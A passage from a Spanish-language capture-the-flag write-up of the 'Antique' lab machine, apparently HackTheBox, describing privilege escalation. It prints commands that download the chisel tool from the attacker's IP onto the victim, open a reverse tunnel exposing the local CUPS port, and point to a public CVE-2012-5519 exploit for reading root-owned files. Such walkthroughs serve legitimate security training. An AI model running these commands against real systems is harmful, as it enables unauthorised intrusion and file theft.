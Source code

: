 ```
# python -m http.sever 80
```

Nos descargamos chisel en la máquina víctima

```
lp@antique:/tmp/privesc$ wget http://10.10.16.16/chisel
--2024-07-30 11:32:44--  http://10.10.16.16/chisel
Connecting to 10.10.16.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: ‘chisel’

chisel                                        100%[================================================================================================>]   8.25M  5.43MB/s    in 1.5s    

2024-07-30 11:32:45 (5.43 MB/s) - ‘chisel’ saved [8654848/8654848]
```

En nuestro equipo ejecutamos este comando

```
# ./chisel server --port 443 --reverse         
```

En la máquina víctima ejecutamos este comando

```
lp@antique:/tmp/privesc$ ./chisel client 10.10.16.16:443 R:631:127.0.0.1:631
```

Si mediante nuestro navegador accedemos a `http://localhost:631/` vemos lo siguiente

![](/assets/img/Antique/image_3.png)

He estado buscando exploit para ver si hay vulnerabilidades para `CUPS 1.6.1` y he encontrado este exploit [https://github.com/p1ckzi/CVE-2012-5519](https://github.com/p1ckzi/CVE-2012-5519) que te permite `leer archivos` cuyo propietario sea `root`. Para transferirnos el exploit a la máquina víctima nos `descargamos` el `exploit` y en el `mismo directorio` donde se encuentra el `exploit` nos creamos un `servidor http` con `python`

```
# python -m http.server 80
```
